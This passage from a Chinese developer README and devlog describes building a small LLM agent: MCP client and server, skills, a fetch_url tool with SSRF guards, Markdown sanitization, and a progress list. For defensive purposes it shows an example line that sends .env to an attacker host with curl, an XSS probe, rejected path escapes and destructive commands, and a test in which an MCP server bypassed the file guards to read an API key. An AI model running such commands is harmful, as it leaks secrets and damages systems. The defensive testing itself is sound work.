帧3 index=1 id='call_y' name='read_file' args=''
帧4 index=1 id=None     name=None       args='{'
帧5 index=1 id=None     name=None       args='"path": "config.json"}'
```

三条只能照数据写、不能照直觉写的规则：

1. **`id` / `name` 只在首片出现** → 后续是 None，覆盖会把它们冲掉（`tool_call_id` 是回填对号的唯一凭据）
2. **`arguments` 逐片拼接** → 用 `=` 覆盖会只剩最后一片
3. **多个 index 交错下发** → 必须 dict 按 index 分桶，不能用 list 往后追加

还有一条反直觉的：**该轮 `content` 可能非空**（实测 11 个字符，模型先说「我来帮你查一下」再调工具）。
所以「content 为空」既不能当「要调工具」的判据，也不能当「失败」的判据 —— 唯一可靠判据是 `tool_calls` 本身。

## 第 5 周 · MCP client：内核不知道 MCP 存在

`agent/mcp/` 四个文件，`loop.py` 只多了一个 `mcp_servers` 参数。

```python
RemoteTool(远端工具)  →  伪装成本地 Tool  →  registry 里和 get_time 平级
```

**这是整个设计里最值得学的一点：协议适配发生在边缘，不在内核。** 内核只管「有哪些工具、叫什么、参数是什么」。

### 三个传输层的坑（都会表现成「莫名不动」）

| # | 坑 | 后果 | 解法 |
|---|---|---|---|
| 1 | `readline()` 没有超时 | server 卡住 → 整个 Agent 停住 | 读线程 + `queue.get(timeout)` |
| 2 | `stderr=PIPE` 没人读 | 缓冲区写满后**子进程在 write 上永久阻塞** | 单独起线程读干 stderr |
| 3 | Windows 的 `npx` 实为 `npx.CMD` | `Popen` 直接 spawn 失败 | `cmd /d /c` 包裹 |

第 2 条最阴：它不报错，只是进程不往下走了。

### 工具说明书的代价

| | prompt_tokens |
|---|---|
| 空对话 | 17 |
| 接入 filesystem server（8 个工具） | **1565** |

而且**每一轮都要重发**。所以 `config.json` 里的 `enabledTools` 白名单不是可选项 —— 接一个 29 工具的 server 会让每轮固定开销涨到几千 token。

### ⚠️ 安全实测：四层防线只约束「自己写的工具」

同一个 `mini-agent/.env`：

| 路径 | 结果 |
|---|---|
| 本地 `read_file(".env")` | **拒绝**（第二层拦截） |
| MCP filesystem server 的 `read_text_file` | **读到了 436 字符，含 `LLM_API_KEY`** |

原因是四层防线写在 `agent/tools/` 里，而 MCP 工具是**另一条路径**。

结论有三条：
1. **「能不能出项目」和「项目里什么敏感」是两个独立问题** —— 前者正确不蕴含后者。
2. **任何外部工具都是新增的绕过路径。** 接 MCP 等于扩大攻击面，不是「白得一堆能力」。
3. **范围就是权限。** filesystem server 的根目录绝不能给项目根 —— 那会连 `data/sessions`、`.env` 一起交出去。

## 第 5 周 · 自己的 MCP server：635 个小节的文档检索

`mcp_servers/` 是**独立进程**，不 import `agent/` 任何东西。这才叫作品 —— 任何支持 MCP 的客户端都能直接用。

### 为什么用 FTS5，不用向量库

文档检索第一反应是上 embedding。这里没上，原因是**启动成本**：

| | SQLite FTS5 | 向量库（Chroma / FAISS） |
|---|---|---|
| 冷启动 | 毫秒级 | 要加载 embedding 模型，十几秒到几分钟 |
| 依赖 | Python 自带 | 额外几百 MB |
| 中文检索 | `trigram` 分词可用 | 更强（语义近似） |

关键约束在 MCP 这一侧：**server 是 stdio 子进程，握手前必须就绪。**
实测连一个 `npx` 的 filesystem server，首次握手已经要 19.3s。再叠几分钟模型加载 → **必然握手超时。**

所以分工是：**低频、可接受慢启动的场景用向量检索；要被随时 spawn 的 MCP server 用 FTS5。**

### 4 个工具，两级检索

| 工具 | 用途 |
|---|---|
| `list_chapters` | 先看有哪 16 章，确定往哪找 |
| `search_docs` | **主入口**：按技术词检索小节，回编号 + 上下文 |
| `get_outline` | 拿到某一章的小节标题列表 |
| `get_section` | 按编号取一小节全文 |

**为什么要两级**（先 search 拿编号，再 get_section 取全文）：
一次把整章塞进上下文是几万 token，而且大部分用不上。
两级检索的代价是多一次工具调用，收益是上下文只装真正要看的那一小节。

工具描述里还写了「查询用具体技术词，不要用整句问句」——
这是在**教模型怎么用工具**，属于工具设计的一部分，不是废话。

### 给 Cursor / Claude Desktop 配（含一个「看起来像协议错、其实是启动错」的坑）

配置文件放 `<用户目录>/.cursor/mcp.json`（全局，对所有项目生效）：

```json
{
  "mcpServers": {
    "helloagents": {
      "command": "D:\\WorkBuddy\\nanobot\\mini-agent\\.venv\\Scripts\\python.exe",
      "args": ["D:\\WorkBuddy\\nanobot\\mini-agent\\mcp_servers\\launch.py"]
    }
  }
}
```

**就这两行，没有 `cwd`，没有 `env`。** 这是踩坑之后简化出来的。

#### 踩过的坑：`MCP error -32000: Connection closed`

第一次配的时候写的是 `args: ["-m", "mcp_servers"]` + `"cwd": "<项目目录>"`，
自己测全通，Cursor 里却是红点。查出来是这个原因：

| 启动方式（实测四组） | 结果 |
|---|---|
| cwd=项目 + 设 `PYTHONPATH` | ✅ |
| cwd=项目，不设 `PYTHONPATH` | ✅ |
| **cwd=别的目录，不设 `PYTHONPATH`** | ❌ `No module named mcp_servers`，退出码 1 |
| `uv run --directory <项目>` | ✅ |

**Cursor 3.24 不认配置里的 `cwd` 字段。** 于是子进程从别处启动，import 就失败，
进程退出 → 客户端只说一句「连接已关闭」。

> 这件事最值得记的不是修法，是**误导性**：
> 客户端**不会把子进程的 stderr 显示给你**。「进程没起来」和「协议不兼容」
> 报的是同一个错。你如果第一反应去改协议版本，会一路改错方向。

所以 `mcp_servers/launch.py` 自己算项目路径、自己插 `sys.path`，
**不依赖客户端给的工作目录，也不依赖环境变量**。任何 cwd 都能起来。

顺带修的第二个坑：`initialize` 原来硬回 `2024-11-05`，而 Cursor 3.x 发的是
`2025-06-18`。规范说服务器回自己的版本、客户端不支持就断开 ——
**断开的报错同样是「Connection closed」**，和上面那个长得一模一样。
现在改成客户端要哪个就回哪个（限已知的三个版本），不认识才回退默认值。

#### 验收：Cursor 真能调用

不只是绿灯。在 Cursor 的 Agent 模式里问「用 helloagents 查一下，MCP 的传输方式有哪几种」：


它自己走完了 `search_docs → get_section`，答案带章节号（10.2.3）、
五种传输方式（Memory / Stdio / HTTP / SSE / StreamableHTTP）与原文一致。

**这一步为什么必须做**：自己的 client 连自己的 server，两端可以互相迁就 ——
client 对不规范的字段过度宽容、server 漏发规范要求的字段但 client 不检查，
照样「测试通过」。Cursor 是别人写的、严格按规范解析，它连通才算数。


## 第 5 周 · skill 系统：说明书，不是能力

### 一个关键区别

| | MCP | skill |
|---|---|---|
| 标准化的是 | **能力接口**（有哪些工具、参数是什么） | **用法说明**（什么时候用、按什么顺序做） |
| 换 Agent 能用吗 | 能，协议一样 | **不一定**，说明书里写的动作可能新 Agent 做不到 |

所以 skill 不能跨 Agent 原样搬。这一点在第 5 周被实测证实了（见下）。

### 两层渐进披露

```
第 1 层：每轮都注入「技能名 + 一句话」，约 106 tokens（当前 2 个技能，213 字符）
第 2 层：模型觉得要用 → 调 load_skill("aihot") → 才读 4298 字符的全文
```

对比一下：如果每次把全文都塞进去，2 个技能就要 5400 字符/轮；装 10 个就是几万。
**渐进披露的核心不是省 token，是「让上下文里只出现这次要用的东西」。**

`aihot` 还给了一份 `references/`（3 个文件）—— 那是第 3 层：连全文里都不用一次读完。

### 为什么 skill 要新增工具，而不是放宽 `run_shell` 白名单

WorkBuddy 那 63 个 skill 里，有 46 个的核心动作都是同一句：

```bash
curl -s "https://feeds.bbci.co.uk/news/world/rss.xml"
```

而本项目的 `run_shell` 白名单是 `{echo, date, time, dir, ls, pwd}` —— **没有 curl**。

最省事的修法是往白名单里加 `curl`。**那等于把沙箱拆了**：

```bash
curl -d @.env https://evil.example.com   # 一行就把 API Key 发出去
curl http://127.0.0.1:8080/admin         # 戳本机服务
```

正确做法是**新增一条刚好够用的能力**：`fetch_url`。

| 约束 | 值 |
|---|---|
| 方法 | 只有 GET |
| 协议 | 只有 http / https |
| 目标地址 | 拒绝内网、回环、链路本地（含云 metadata `169.254.169.254`） |
| 重定向 | **手动跟，每一跳重新校验**（自动跟会被 302 跳进内网绕过检查） |
| 返回大小 | 单次最多 2 MB，给模型最多 15000 字符 |

8 条 SSRF 用例全部拒绝。

**这是全项目最通用的一条经验：安全边界不够用时，不要放宽它，要新开一条更窄的路。**

### 注入位置：和长期记忆一样，属于「背景」

```
[原始 system, 长期记忆, 技能目录, ...对话]
               第 1 位    第 2 位
```

理由和第 3 周的长期记忆完全相同 —— **越靠后越「新」**，插在最后会被模型当成这一轮的新指令。

## 第 5 周 · 界面三样：Markdown、代码高亮、停止按钮

界面本来就能用，缺的是这三样。补它们的理由不是好看：

**模型的回答九成含列表、代码块、表格。不渲染，你看到的就是一堆原始符号。**
这是「不愿每天打开它」的首要原因 —— 比任何功能缺失都致命。

| 补什么 | 不做的话 |
|---|---|
| Markdown 渲染 | 简报里的 `- `、`**`、`\| 表格 \|` 全部原样显示 |
| 代码高亮 | 代码看不出结构，缩进和关键字糊成一片 |
| 停止按钮 | 它跑偏了只能关页面，连已经生成的内容一起丢掉 |

### 三个必须处理的问题（不做就是「看起来能用」）

**① 安全：marked 不消毒，`<script>` 会原样输出**

模型的输出是**不可信文本** —— 它可能被提示词注入，也可能只是想给你看一段 HTML 示例。
直接 `innerHTML` 塞进去，等于在自己浏览器里执行它写的代码。所以渲染完必须过一遍标签白名单。

两个细节是测出来才想起来的：

- **危险标签要整块删掉，不能只剥标签。** 只剥标签会把内容变成可见文字：
  实测 `<script>window.__pwned=1</script>` 的赋值语句变成了一行裸代码显示在气泡里。
- **连 `` 也不该放行。** `` 会**立刻发出一个真实请求** ——
  对方由此知道你看了这条回答、什么时候看的。这和邮件里的追踪像素是同一件事。
  XSS 拦得住代码执行，拦不住这种静默外联。代价是图片显示成 alt 文字，对一个查资料的工具可以接受。

> 实测结果：`<script>` / `` / `javascript:` 链接三种探针，
> 在真浏览器里全部失效（`window.__pwned` 恒为 undefined），且不产生任何 4xx 请求。

**② 流式：字是一个一个来的，中途经常停在半个 ``` 里**

不处理的话，围栏没闭合的那一瞬间整段会先按普通段落渲染（排版乱跳），闭合后又变回代码块。

解法很土但有效：**数一下 ``` 的个数，是奇数就临时补一个**，让它先按代码块稳定下来，下一帧自然补齐。

```js
const fences = (s.match(/^[ \t]*```/gm) || []).length;
if (fences % 2 === 1) s += "\n```";
```

**③ 性能：每个字都重新解析整段 markdown**

节流到 80ms 一次，收尾时再补一次终稿 —— 否则最后 80ms 内的字符会留在缓冲里没渲染出来。

### 一个纯 HTML 的坑，和 Markdown 毫无关系

我在 `<script>` 块里写注释，注释里提到了 `</script>` 这个词 ——
**HTML 解析器不认识注释，它看到 `</script>` 就把脚本块截断了。**

结果：整段 JS 从 12566 字符变成 2485 字符，页面加载后 `addBubble is not defined`，
而 `node --check` 检查语法是通过的（因为它检查的是被截断之前的那段）。

这个坑的教训不是「小心点」，是：**改完前端一定要在真浏览器里跑一遍。**
语法检查通过 ≠ 页面能工作，这两件事之间隔着 HTML 解析器。

### 停止按钮：它到底停了什么

本质就是一个 `AbortController`。`fetch` 的 signal 一 abort，读流那端立刻抛 `AbortError`，
浏览器同时断掉连接。服务端是同步生成器，Starlette 会在下一次 `yield` 时停止迭代。

**但它省不了已经发出的那次钱。** 中止发生在两个 chunk 之间，当前这次模型请求已经发出去了，
token 已经算进账单。它省的是后面还没发的那些轮 —— 工具循环跑到第 5 轮时你才想停，价值就在这里。

**不确定的地方要说出来，不能装作是「完全取消」。** 按钮的 `title` 里就是这句话。

### 第三方库存了本地一份，不走 CDN

`web/vendor/marked.min.js`（34 KB）和 `highlight.min.js`（118 KB），由 `/vendor/*` 挂载。

理由：这是个**本地工具**，断网也要能打开；而国内访问 jsdelivr 时通时不通 ——
引 CDN 会把「界面白屏」变成一个随机故障，偏偏在网络好的时候不出现。
`StaticFiles` 自己处理路径穿越（`/vendor/../../.env` 返回 404），比手写 `FileResponse` 安全。

### 验证方式：真浏览器，不是看一眼

用系统 Edge 跑无头浏览器（`playwright-core` + `executablePath`，不用下载 Chromium），
两轮检查：

| 检查 | 做法 | 结果 |
|---|---|---|
| 渲染 | 往气泡里注入一段含标题/表格/两段代码的 markdown | h2、strong、表格行、2 个代码块全部渲染，语言标签 `python` / `bash` |
| 消毒 | 同一段里塞 `<script>`、``、`javascript:` 链接 | 三个探针全部失效，0 个 4xx 请求 |
| 工具卡片 | Agent 模式问「现在几点」 | 1 张 `get_time` 卡片，回答另起一段 |
| 停止 | 发长请求，2.5 秒后点停止 | 显示 `[已停止]`，按钮恢复，页面无报错 |

顺手抓出一个自己造的 bug：模型**什么都没说就直接调工具**时，第一段空气泡会留成一个灰色空块。
修法是 `nextSegment()` 里判 `if (!acc.trim()) cur.remove()`。



> 这张是**测试用样例**注入后的样子（不是真对话）：标题、粗体、行内代码、列表、表格、
> 两段带语言标签的代码块。最下面那行「危险链接」原本是 `javascript:` 链接 ——
> 锚点被摘掉了，文字还在，这是白名单在起作用的样子。

## 第 6 周 · 可靠性：让大结果不进上下文

这是「能演示」和「能天天用」之间最明显的一条线。

### 现象

`loop.py` 里没有任何地方给工具结果设上限。工具返回一个字符串，
它原样变成一条 `role="tool"` 消息进 `self.messages`：

```
fetch_url 抓一个长网页   → 十几万字符
MCP server 返回全文      → 有多少给多少
读一个 300KB 的日志      → 30 万字符
```

压缩救不了它。`KEEP_RECENT = 8` 的保留区是**原样发送**的 ——
这条巨型消息只要还在最近 8 条里，一个字符都压不掉。
实测压 16 条只省 7 token，就是这个原因。

后果不是「慢一点」，是 HTTP 400 `context_length_exceeded`。
而且报错的那一轮往往不是罪魁祸首的那一轮，最难查。

### 判据：落盘，不是截断

```
截断 = 中间删了，模型永远拿不回来，也不知道自己缺了什么 → 基于残片自信作答
落盘 = 数据不在上下文里，但在磁盘上 → 它知道缺什么，能自己去取
```

超过 8000 字符时：

1. 全文写到 `data/tool_results/<工具名>-<内容哈希前 10 位>.txt`
2. 消息里只留「开头 1500 + 结尾 1500 + 一行路径」
3. 模型真要中间那段，自己调 `read_file` 去取

文件名用**内容哈希**，幂等是白拿的：模型重试一次工具，不会堆出两份 30 万字符的文件。

闸门放在 `registry.call()` 之后、消息进 `messages` 之前 —— 一处管住所有工具，
包括 MCP 的。理由：执行层只该回答「跑出了什么」，
一旦它开始关心 token 预算，工具层和上下文层就粘在一起了。

### 落盘的另一半：得能读回来

写完才发现 `read_file` 只有 `max_bytes`，没有 `offset`。
也就是说数据在磁盘上，但模型只能读到开头 4000 字节 ——
中间 29 万字符**永远取不回来**，落盘等于半成品。

所以同时给 `read_file` 加了 `offset`。加的时候踩到一个真坑：

> 按字节分段时，4000 不是 3 的倍数 → 段边界经常落在一个汉字中间
> → `decode("utf-8")` 抛错 → 原来「失败再试 GBK」的逻辑**成功解出一串乱码**
> → 模型读到的后半段全是看不懂的字，而它**不会觉得自己没读到**

修法：先做「边界安全」的 UTF-8（最多回退 3 字节，回退的那几字节留给下一段），
UTF-8 完全不通才当 GBK 文件。header 改成报「本次返回第 a–b 字节」，
并直接给出下一段的 `offset`。

### 实测

把阈值临时调到 600，让模型读 `README.md`：

```
工具返回 3639 字符  → 落盘 data/tool_results/read_file-7c19ebb226.txt
会话里那条 tool 消息变成：
  [工具结果过大，已落盘]
  原始长度：3639 字符，其中中间 639 字符没有放进上下文。
  完整内容：data/tool_results/read_file-7c19ebb226.txt
```

模型仍然正确答出「共 58754 字节」—— 说明 header 和头段内容够它用了。

这次真机还抓到一个**负优化**：预览固定 3000 字符，
结果只比阈值大一点时，「落盘」反而让上下文变长。
判据从「超没超阈值」补成「落盘之后是不是真的更短」。

### ② 撞上工具轮上限：从「固定文案」到三级兜底

旧行为：跑满 `max_iterations` 就返回「已达到最大工具调用轮数（5），我先停在这里。」

问题不是文案难看 —— 是 **`messages` 里已经躺着 5 条工具结果，用户一个字都看不到**。
钱花了、信息也拿到了，只是没说出口。这是最亏的一种失败。

改法：再发一次**不带 `tools`** 的请求，让它把已经拿到的东西说出来。

**这里踩了一个认知错误，值得单独记：**

> 我以为「请求里不传 `tools`，模型就只能说话」。
> **不成立。** 历史里全是 `tool_calls` / `tool` 结果的模式，模型会照着往下写 ——
> 实测不带 `tools` 的一次请求，它照样吐了 4 个 `read_file` 调用。
> **「不给工具」是必要条件，不是充分条件。**

于是变成三级兜底：

| 级 | 动作 | 为什么 |
|---|---|---|
| 0 | 循环结束时手里那条回复已经答完了 → 直接用 | 否则白花一次请求（数请求次数才发现的） |
| 1 | 不带 tools 请求一次，有正文就用（哪怕同时吐了 tool_calls） | 正文是它自己写的答案；那些调用直接丢弃、不存历史 |
| 2 | 正文也空 → 加一句「不要再请求任何工具」再问一次 | 光靠清单缺席，它不会意识到该收手 |
| 3 | 还是空 → 把最后 3 条工具结果直接摊给用户 | 付了钱、拿到了数据，不该空手而归 |

真机（`max_iterations=1`，故意让它撞上限）：

```
`[project]` 里的 name 是 `mini-agent`；README.md 共 63232 字节，
本次只读了前 8000 字节……全文出现次数无法给出。
（说明：工具已连续调用 1 轮，达到上限，以上是提前收尾的总结。）
```

顺带一个数字：`max_iterations=5` 实际最多打 **6** 次模型 —— 循环外还有一次首请求。
**刹车数的是「轮」，不是「请求」。**

### 边界

- `data/tool_results/` **只增不删**，跑久了会涨 —— 目前没有清理策略，属已知局限。
- 阈值可用环境变量 `MINI_AGENT_TOOL_RESULT_MAX_CHARS` 调；写错退回默认值，不报错。
- 本地工具的返回本来就有上限（`run_shell` 2000 字符、`read_file` 4000 字节、
  `fetch_url` 也有），**真正的缺口是 MCP 工具** —— 别人的 server 返回多少就是多少。

## 进度

- [x] **阶段 0**：`stage0_check.py` 跑通，能打印模型回复与 token 用量
- [x] **第 1 周**：`agent/llm.py` + `agent/loop.py` + `cli.py`，多轮对话 + 流式
  - [x] `agent/llm.py` —— 模型调用封装
  - [x] `agent/loop.py` —— 主循环（两处 TODO 已补齐）
  - [x] `cli.py` —— 命令行入口
  - [x] 单轮对话跑通
  - [x] 多轮对话跑通（模型记得前两句）
  - [x] 流式输出跑通
  - [x] `/reset` 后确实失忆（验证「记忆 = messages 列表」）
- [x] **第 2 周**：`agent/tools/`，模型能自主调工具（v0.3）
  - [x] `agent/tools/base.py` —— 工具基类 + Schema 生成
  - [x] `agent/tools/registry.py` —— 注册表 + 自动发现
  - [x] `agent/tools/get_time.py` —— 第一个工具
  - [x] `llm.py` 支持 `tools` 与 `tool_calls`
  - [x] `cli.py` 加 `--tools` 开关
  - [x] `loop.py` 的 `run_with_tools()`（3 处 TODO 已补齐）
  - [x] 问「现在几点」能自动调 `get_time`
  - [x] 坏 JSON 不崩溃（`ToolCall.parsed_arguments()` 兜底）
  - [x] `max_iterations` 能拦住死循环（实测调用 3 次即停）
  - [x] `read_file` 工具 —— 路径校验 + 敏感文件拒绝（TODO ① 已补）
  - [x] `run_shell` 工具 —— 白名单 + 超时 + 固定工作目录（TODO ② 已补）
  - [x] 路径逃逸全部被拒（`../.env` / `..\..\.env` / `/etc/passwd` / `C:\Windows\...`）
  - [x] 项目内敏感文件被拒（`.env` / `.git/` / `.venv/`）—— 路径限制挡不住这层
  - [x] 危险命令全部被拒（`del` / `rm -rf` / `curl|iex` / `format` / `reg` / `powershell`）
  - [x] 白名单大小写与 `.exe` 归一化（`ECHO` / `dir.exe`）

  > 上面两条「被拒」是**工具层强制**的，与模型自己愿不愿意调无关。
  > 实测模型有时会主动拒绝危险请求，但那是它「觉得」不安全，不是「不能」——
  > **安全必须由工具层兜底，不能指望模型自觉。**
- [x] **第 3 周**：`agent/session.py`，程序重启能接着聊（v0.4）
  - [x] `agent/session.py` —— JSONL 读写（`append()` / `messages()` 两处 TODO 已补齐）
  - [x] `loop.py` —— `load_session()` / `flush_session()` + `_flushed` 计数器
  - [x] `cli.py` —— `--sessions` / `--resume` / `--new-session` + `/history`
  - [x] `data/` 已进 `.gitignore`（`git check-ignore -v` 验证命中）
  - [x] 重启程序后能接着上次聊（实测 3 次启动，输入 token 28 → 56 → **75**）
  - [x] 坏行只坏一行（注入非法 JSON，后续内容完好）
  - [x] `tool_calls` / `tool_call_id` 往返不丢
  - [x] `flush_session()` 不重复写（无新消息时文件字节数不变）
- [x] **第 3 周 · 上下文裁剪**：`agent/context.py`，长对话不再爆窗口（v0.5）
  - [x] `context.py` —— 双水位线 + `estimate_tokens()` + `needs_compaction()`
  - [x] `summarize_early()` —— 早期消息压成一条 `role="system"` 的摘要
  - [x] `compact()` —— 切三段 + 组装 `[system, 摘要, 最近...]`
  - [x] `loop.py` —— `_view()`，`self.messages` 与「发送视图」分离
  - [x] 压缩失败时降级为全量发送（不拖垮对话）
  - [x] `cli.py` —— `--no-compact` / `/tokens` / `/compact`
  - [x] **原始 `messages` 未被修改**（最重要的验收点：视图 ≠ 删数据）
  - [x] 真对话实测触发压缩：14 → 10 条，第 8 轮输入 token 从约 290 降到 **175**
  - [x] 摘要内容是人话，压缩后仍记得「旭在做狮山大学城改造项目」
- [x] **第 3 周 · 长期记忆**：`agent/memory.py`，跨会话记得住（v0.6）
  - [x] `agent/memory.py` —— `MEMORY.md` 读写（`load()` / `append()` 两处 TODO 已补齐）
  - [x] `loop.py` —— `load_memory()` / `remember()` / `_inject_memory()`
  - [x] **记忆注入在第 1 位**（原始 system 之后、一切对话之前）
  - [x] `cli.py` —— `--no-memory` / `/memory` / `/remember <内容>`
  - [x] `MEMORY.md` 已进 `.gitignore`（含个人信息，不能上 Git）
  - [x] 离线验收 41 项全过（含「load() 不创建文件」「append() 拦空行」「原列表未被修改」）
  - [x] **跨会话实测**：会话 A 说过 → 全新会话 B 答得出「你叫旭」
  - [x] 关掉 memory 后谁都答不出（证明起作用的是 memory，不是别的）
  - [x] 未写入 `MEMORY.md` 的事实跨会话记不住（**边界，预期行为**）

  > **session vs memory 的根本区别**：
  > session 恢复的是「同一个会话」；memory 跨「所有会话」。
  > 你曾经 `/resume` 回去却答不出名字 —— 那次是**新会话**，
  > 而且「名字」这种东西永不变，不该靠每次压缩去赌它还在不在。
- [x] **配置化 `agent/config.py`**：改 JSON 换模型，不用改代码（v0.7）
  - [x] `agent/config.py` —— `load_raw()` / `resolve()`（两处 TODO 已补齐）
  - [x] `config.json` —— `fast` / `deepseek` 两套预设，**进 Git**
  - [x] `llm.py` —— `load_config()` 改为包装 `config.resolve()`，**三个调用方一行未改**
  - [x] `.env.example` 精简为「只剩 API Key」（模型参数已搬去 config.json）
  - [x] `cli.py` —— `--profile` / `--profiles` / `/config`
  - [x] `.gitignore` 无需改动（`git check-ignore` 验证 `config.json` 会正常进 Git）

  > `reset()` 故意**不**清磁盘文件：文件是历史流水账，不是聊天窗口。
  > 清空窗口 ≠ 删除聊天记录 —— 所以 `/reset` 后接着写，旧记录仍在。
- [x] **第 4 周**：从脚本变成项目（v0.8 → v0.11.0）
  - [x] `server.py` —— FastAPI（会话池 + 线程池 + SSE）
  - [x] `web/index.html` —— 原生 JS 聊天页，不引 Node 构建链
  - [x] `agent/metrics.py` —— 三段耗时 / token / 错误，JSONL 落盘
  - [x] `/api/metrics` 聚合 + `/api/metrics/raw` 明细
  - [x] 工具调用接入 Web 分两步：先非流式跑通（`452efa7`），再补分片归并（`0c2e400`）
  - [x] 工具并发（`ThreadPoolExecutor` + `pool.map` 保序）
  - [x] 连接池复用 `httpx.Client`：948.7ms → 1.2ms
  - [x] 83 条测试全绿；用变异测试验证过断言不空转（把切片改坏，保序测试立刻红）
  - [x] 打包 v0.11.0：`uv build` 产物含两个 `console_scripts`
  - [x] 复盘 nanobot 的 `loop.py` / `runner.py` → `docs/review-nanobot.md`
- [x] **第 4 周扩展 · MCP client**（`ff724c6`，1085 行）
  - [x] `agent/mcp/`：`protocol.py` / `client.py` / `tool.py` / `host.py`
  - [x] 响应按 `id` 配对 —— 假 server 故意在响应前插一条通知来锁死这个行为
  - [x] 三个传输层坑：`readline` 无超时 / `stderr` 无人读会卡死子进程 / Windows `.cmd` 包裹
  - [x] `loop.py` 只多一个 `mcp_servers` 参数 —— 内核不知道 MCP 存在
  - [x] 真实 filesystem server 端到端：14 个工具，模型自主调 2 个，6.8s
  - [x] **安全实测：MCP 绕过了本地敏感文件的四层边界**（见上文）
- [x] **第 5 周 · 自己的 MCP server**（`314f9ca`）
  - [x] `mcp_servers/` 独立进程，不 import `agent/`
  - [x] 635 个小节 / SQLite FTS5 trigram / 4 个工具两级检索
  - [x] 端到端：模型自主调 4 次工具，6.9s，答案精确到小节号
- [x] **第 5 周 · skill 系统 + `fetch_url`**（`602821c`）
  - [x] `agent/skills.py` —— 两层渐进披露（目录 106 tokens，全文按需读）
  - [x] `agent/tools/fetch_url.py` —— 只读 GET + SSRF 防护，替代 `curl`
  - [x] `agent/tools/load_skill.py` —— 按需读说明书全文
  - [x] `skills/aihot` + `skills/news-summary` 两个技能
  - [x] 端到端：模型自主 `load_skill` → `fetch_url` → 按格式出中文简报，15.5s / 8 条
- [x] **第 5 周 · 界面三样**（Markdown / 高亮 / 停止）
  - [x] `web/index.html` —— marked 渲染 + 标签白名单消毒（拦 script / onerror / javascript:）
  - [x] 流式中途补围栏（` ``` ` 奇数就补一个），避免排版乱跳
  - [x] 80ms 节流 + 收尾终稿，长回答不卡
  - [x] highlight.js 本地版 + 自写配色（跟随系统深浅色，不引它的主题 CSS）
  - [x] `#stop` —— AbortController；显示 `[已停止]`，保留已生成内容
  - [x] `web/vendor/` 由 `server.py` 的 `/vendor` 挂载（`StaticFiles` 自带路径穿越防护）
  - [x] 真浏览器验证：系统 Edge + playwright-core，渲染 / 消毒 / 工具卡片 / 停止四项全过
- [x] **一键启动**：`start.bat`（纯 ASCII）+ `launcher.py`
  - [x] 路径全部从 `%~dp0` 推出，文件夹可搬运 / 可拷给别人
  - [x] 没 `.venv` 自动 `uv sync`；端口已占只开浏览器；没 `.env` 只警告不拦
  - [x] 轮询端口再开浏览器（不用固定 sleep，机器慢也不会白屏）
  - [x] `.gitattributes` 加 `*.bat text eol=crlf`（cmd 对 LF-only 的 bat 不可靠）
- [x] **第 6 周起步 · 渠道层 + 微信公众号协议**（`da254e3`）
  - [x] `agent/channels/`：`Inbound`（含幂等键 `msg_id`）+ `session_id_for()`
  - [x] 微信公众号：验签 / XML 解析 / 被动回复构造（**不接个人号** —— 无官方 API）
  - [x] 会话 id 从「时间戳」改成「渠道+用户」的稳定哈希（IM 里时间戳会撞名且会失忆）
  - [x] 19 条协议测试（验签 5 / 解析 6 / 回复 5 / 会话身份 3）
- [x] **第 6 周 · 可靠性 ①：工具结果落盘**
  - [x] `agent/tool_results.py` —— 超阈值落盘，消息里只留「头 1500 + 尾 1500 + 路径」
  - [x] 文件名用内容哈希 → 同一份结果写两次等于写一次（幂等不用另外实现）
  - [x] 闸门放在「结果进 `messages` 之前」，一处管住本地工具和 MCP 工具
  - [x] `read_file` 加 `offset` —— 否则落盘的文件只能读开头 4000 字节，等于取不回来
  - [x] 段边界安全：先 UTF-8 回退 3 字节，UTF-8 不通再退 GBK（否则中文会被解成乱码）
  - [x] 真机：3639 字符 → 落盘 `read_file-7c19ebb226.txt`，模型仍答对「共 58754 字节」
  - [x] 13 条测试，含「落盘 → 按段读回 → 拼起来逐字节等于原文」的闭环
- [x] **第 6 周 · 可靠性 ②：撞上工具轮上限后的收尾**
  - [x] 改成再发一次**不带 tools** 的请求，把已经拿到的工具结果说出来
  - [x] 实测推翻假设：**不传 tools 并不能阻止模型继续吐 tool_calls**（4 个）
  - [x] 三级兜底：用现成回复 → 无 tools 请求 → 加劝告重试 → 摊出工具结果
  - [x] 收尾那段只存 `content`，不带 `tool_calls`（否则历史里埋一颗 400 的雷）
  - [x] 真机：`max_iterations=1` 撞上限，仍给出带「只读了前 8000 字节」的诚实总结
  - [x] 9 条测试；两轮变异（退回固定文案 7 红 / 收尾仍带 tools 2 红）
- [x] **`pytest` 全绿：130 passed**
- [ ] **已知局限（诚实清单）**
  - [ ] wheel 里**不含** `web/`（`index.html` 与 `vendor/`）—— 只影响 `pip install` 分发，`uv run` 不受影响
  - [ ] HTTP 层**零鉴权** —— 只能在本机用，不能直接暴露到公网
  - [ ] `_agents` 会话池没有 TTL，长期跑会一直占内存
  - [ ] 撞上 `max_iterations` 时，工具结果在 `messages` 里但用户拿不到 —— 正确做法是再发一次不带 `tools` 的请求收尾
  - [ ] 停止按钮**省不了已经发出的那次请求**的钱（中止发生在两个 chunk 之间）

## 许可

MIT，见 [`LICENSE`](LICENSE)。

选它的理由很实际：这是给**别人**用的前提。没有许可证的仓库，公司的法务不允许引用 ——
哪怕代码本身再好。想让这个项目进入任何真实的协作场景，这一步是必须的。

